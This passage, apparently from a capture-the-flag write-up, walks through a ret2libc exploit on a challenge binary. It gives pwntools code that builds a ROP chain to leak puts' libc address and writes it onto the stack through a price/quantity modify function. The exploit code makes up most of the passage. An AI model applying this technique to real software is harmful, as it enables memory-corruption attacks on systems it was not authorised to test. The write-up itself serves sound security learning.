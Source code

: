 And `L` is at offset 11:

![log-get-saved-rip.png](images/log-get-saved-rip.png)

Let's conduct the ret2libc (remember price is the 4 lower bytes and quantity is 4 higher bytes):

```python
pop_rdi = 0x0000000000000d53
payload = p64(exe.address + pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
for i in range(int(len(payload) / 8)):
    modify(i+11, payload[i*8:i*8+8])
```

And the function modify is:

```python
def modify(index, value):
    p.sendlineafter(b'Index to modify (-1 to quit): ', f'{index}'.encode())
    price = u64(value) & 0xffffffff
    quantity = u64(value) >> 32
    input_data(price, quantity)
```

Execute script and we usually get the begining of main:

![begining-of-main.png](images/begining-of-main.png)
